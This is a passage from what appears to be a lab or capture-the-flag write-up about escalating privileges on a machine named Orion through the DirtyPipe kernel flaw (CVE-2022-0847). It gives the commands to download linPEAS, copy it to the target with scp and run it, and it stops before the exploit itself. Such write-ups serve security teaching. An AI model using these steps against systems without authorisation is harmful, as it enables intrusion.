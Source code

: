     *   ![IMAGE: Screenshot of `cat /etc/cron.d/fix-ownership-on-crew` and `ls -ld /crew`.](imgs/img_21.png)

### 6.2. Identifying and Exploiting DirtyPipe (CVE-2022-0847)
The privilege escalation path involved identifying and exploiting the DirtyPipe kernel vulnerability.

*   **Transferring and Running `linPEAS`:**
    *   `linpeas.sh` was downloaded to Kali and transferred to Orion's `/tmp` directory using `scp`.
        *   **Kali:** `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh`
        *   **Kali:** `scp linpeas.sh commandervex@192.168.13.129:/tmp/linpeas.sh`
    *   Executed on Orion:
        *   **Orion (as `commandervex`):**
            ```bash
            cd /tmp
            chmod +x linpeas.sh
            ./linpeas.sh
            ```
    *   `linPEAS` output (or prior knowledge) indicated the system was vulnerable to CVE-2022-0847 (DirtyPipe).